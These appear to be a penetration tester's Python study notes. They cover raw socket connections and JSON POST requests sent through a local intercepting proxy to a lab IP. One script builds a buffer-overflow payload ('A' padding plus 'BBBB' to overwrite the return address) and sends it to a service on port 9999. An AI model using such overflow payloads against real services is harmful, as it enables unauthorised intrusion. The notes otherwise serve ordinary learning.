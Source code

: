 # Python notes

### 1\) New socket connection

### Python requests

* It accepts data in JSON format, except the URL parameter which is a string. If we have to send "`name=a`" then,
  * `{"name":"a"}`
* `url = "http://10.10.10.179/api/getColleagues"`
* `data = {"name":"a"}` 
* `header = {"Content-Type":"application/json;charset=utf-8"}` 
* `proxy = {"http":"127.0.0.1:8080"}`
* `r = requests.post(url, json=data, headers=header, proxies=proxy)`

```text
#!/usr/bin/python

# Import socket module 
import socket                
  
# Create a socket object 
try :
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except :
  print ("socket creation failed")         
  
# Define the port on which you want to connect 
port = 12345                
ip = "127.0.0.1"
# connect to the server on local computer 

try : 
  s.connect((ip, port)) 
  # receive data from the server 
  print (s.recv(1024)) 
except : 
  print ("connection failed")

# close the connection 
s.close()
```

sample socket code

```text
#!/usr/bin/python

import socket

junk = 'A'*524
payload = junk + "BBBB"

print payload

try :
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except :
	print ("failed socket connection")

host_ip = "192.168.137.104"
host_port = 9999

try:
	connect = s.connect((host_ip, host_port))
	data = s.recv(1024)
	s.send(payload + '\r\n')
	data = s.recv(1024)

except:
	print ("no")

```

### 2\) Carriage return

`'\r\n'` : Equivalent to "enter" of keyboard.

## Example 2 : Create simple request response

```text
import requests
import json

url = "http://10.10.10.179/api/getColleagues"

data = {"name":"a"}
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
r = requests.post(url, json=data, headers=header, proxies=proxy)
print(r.text)
```

